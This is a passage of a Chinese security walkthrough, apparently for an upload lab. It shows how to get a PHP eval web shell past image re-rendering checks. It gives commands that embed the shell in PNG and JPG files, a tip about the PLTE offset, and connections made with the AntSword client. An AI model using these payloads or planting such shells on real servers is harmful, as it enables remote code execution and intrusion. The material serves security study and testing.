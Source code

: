 使用蚁剑进行连接

![PixPin_2025-05-13_16-33-04](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-13_16-33-04.7i0lsqm0ma.webp)

2、png 绕过

使用 Python 写了一个用于 png 二次渲染绕过的脚本，项目地址：[png_payload](https://github.com/Puppy1599/png_payload)

```shell
python png_payload.py --input fish.png --payload "<?php @eval($_POST['fish']);?>" --offset 0
```

可以使用 010 Editor 看到 `fish-payload.png` 中注入的 payload

![PixPin_2025-05-14_20-42-43](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-14_20-42-43.5xauuy1njo.webp)

上传成功，但下载上传后的图片发现 payload 不完整

![PixPin_2025-05-14_20-44-02](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-14_20-44-02.4jobqws99w.webp)

> [!WARNING]
> 经过测试需要设置一个合适的 PLTE block 偏移量，当 `offset` 为 `0` 时 payload 将被注入到 PLTE 头部，可能导致二次渲染后的 payload 不完整。

将 `offset` 设置为 `30`

```shell
python png_payload.py --input fish.png --payload "<?php @eval($_POST['fish']);?>" --offset 30
```

![PixPin_2025-05-14_20-44-47](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-14_20-44-47.2rvcw09ual.webp)

上传成功，下载上传后的图片发现 payload 完整

![PixPin_2025-05-14_20-45-33](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-14_20-45-33.92qctvzok3.webp)

使用蚁剑进行连接

![PixPin_2025-05-14_20-46-11](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-14_20-46-11.5xauuy655i.webp)

3、jpg 绕过

参考了一个用于 jpg 二次渲染绕过的 php 脚本并使用 Python 进行了打包，项目地址：[jpg_payload](https://github.com/Puppy1599/jpg_payload)

上传正确的图片 `fish_real.jpg`，将上传后的照片另存为 `fish2_real.jpg`，使用 `jpg_payload` 注入 payload

```shell
jpg_payload.exe fish2_real.jpg "<?php @eval($_POST['fish']);?>"
```

可以使用 010 Editor 看到 `payload_fish2_real.jpg` 中注入的 payload

![PixPin_2025-05-14_22-33-00](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-14_22-33-00.7p3tpyitno.webp)

上传成功，下载上传后的图片发现 payload 完整

![PixPin_2025-05-14_22-33-46](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-14_22-33-46.1ap7ud1ux8.webp)

使用蚁剑进行连接
